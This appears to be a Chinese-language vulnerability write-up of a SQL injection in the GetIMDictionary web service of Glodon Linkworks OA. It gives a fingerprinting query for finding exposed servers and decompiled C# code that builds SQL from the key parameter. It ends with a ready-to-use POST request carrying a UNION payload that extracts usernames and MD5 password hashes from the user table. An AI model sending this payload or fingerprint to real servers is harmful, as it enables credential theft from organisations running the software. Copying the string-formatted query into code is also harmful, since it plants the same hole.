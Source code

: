 # 广联达 Linkworks GetIMDictionary SQL注入漏洞

# 广联达 Linkworks GetIMDictionary SQL注入漏洞

## 漏洞描述

广联达 Linkworks办公OA GetIMDictionary接口存在SQL注入漏洞，发送请求包后可以获取数据库中的敏感信息

## 漏洞影响

广联达 Linkworks

## 网络测绘

```
web.body="/Services/Identification/"
```

## 漏洞复现

登陆页面

![image-20230828150337640](images/image-20230828150337640.png)

```
// GTP.IM.Services.Config.WebSite.WebService.IM.Config.ConfigService
// Token: 0x06000018 RID: 24 RVA: 0x00004148 File Offset: 0x00002348
[WebMethod(Description = "得到IM系统配置")]
public string GetIMDictionary(string key)
{
	string str = string.Empty;
	ISysConfigService service = ServiceFactory.GetService<ISysConfigService>();
	StringBuilder stringBuilder = new StringBuilder();
	stringBuilder.AppendFormat("select F_VALUE from T_IM_DICTIONARY where f_key='{0}';", key);
	DataSet dataSet = GSqlDataAccess.SelectDataSet(service.DataSourceName, stringBuilder.ToString(), new DataParameter[0]);
	if (dataSet != null && dataSet.Tables.Count > 0 && dataSet.Tables[0] != null)
	{
		foreach (object obj in dataSet.Tables[0].Rows)
		{
			DataRow dataRow = (DataRow)obj;
			str = dataRow["F_VALUE"].ToString();
		}
	}
	StringBuilder stringBuilder2 = new StringBuilder();
	stringBuilder2.Append("<?xml version=\"1.0\" encoding=\"utf-8\"?>");
	stringBuilder2.Append("<result  value=\"" + str + "\" >");
	stringBuilder2.Append("</result>");
	return stringBuilder2.ToString();
}
```

![image-20230828150533931](images/image-20230828150533931.png)

验证POC

```
POST /Webservice/IM/Config/ConfigService.asmx/GetIMDictionary HTTP/1.1
Host: 
Content-Type: application/x-www-form-urlencoded

key=1' UNION ALL SELECT top 1 concat(F_CODE,':',F_PWD_MD5) from T_ORG_USER --
```

![image-20230828150553176](images/image-20230828150553176.png)


